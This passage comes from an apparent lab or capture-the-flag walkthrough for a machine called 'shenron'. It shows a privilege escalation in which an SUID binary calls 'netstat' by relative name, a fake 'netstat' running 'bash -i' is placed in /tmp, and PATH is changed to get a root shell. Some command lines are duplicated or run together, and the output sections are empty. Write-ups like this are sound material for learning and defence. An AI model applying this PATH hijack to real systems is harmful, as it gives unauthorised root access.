




5.1 Execute binary as root
1. On your “Reverse shell” list the files.
shenron@shenron:~$ ls -al shenron@shenron:~$ls -al
Output:

There is an SUID binary called “network", which could lead us to get root access.
2. Run the “network” binary.
shenron@shenron:~$./network
Output:

The binary calls another program called “netstat”.
3. Run “netstat”.
shenron@shenron:~$netstat -ltunp
Output:

So, the binary run “netstat”, therefore you can create your own binary and name it as “netstat”. Then, you can add the directory containing the new binary to the PATH.
As we know in linux, we can either use full path, relative path or PATH variables from system or user environments. Suppose, if the binary had used
/usr/bin/netstat then, it is a full path. However, if it uses netstat only, then the binary is checked in path variables. 4. Create “netstat” binary that would run a “bash shell”.
shenron@shenron:~$cd /tmp
shenron@shenron:/tmp$echo 'bash -i #' > netstat
shenron@shenron:/tmp$chmod +x netstatshenron@shenron:/tmp$ export PATH=/tmp/:$PATH # add /tmp to the PATH
shenron@shenron:/tmp$cd
shenron@shenron:~$./network
shenron@shenron:/tmp$echo 'bash -i #' > netstat
shenron@shenron:/tmp$chmod +x netstatshenron@shenron:/tmp$ export PATH=/tmp/:$PATH # add /tmp to the PATH
shenron@shenron:/tmp$cd
shenron@shenron:~$./network
Output:

You are “root”.
5.